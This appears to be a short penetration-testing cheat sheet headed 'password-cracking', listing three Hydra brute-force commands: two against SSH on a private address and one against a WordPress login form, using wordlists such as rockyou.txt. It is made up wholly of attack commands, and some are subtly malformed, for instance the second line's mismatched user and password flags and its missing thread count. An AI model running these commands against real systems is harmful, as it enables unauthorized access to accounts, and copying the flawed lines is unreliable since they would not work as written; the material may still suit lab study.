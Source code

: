 #password-cracking
- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22

- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22

- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'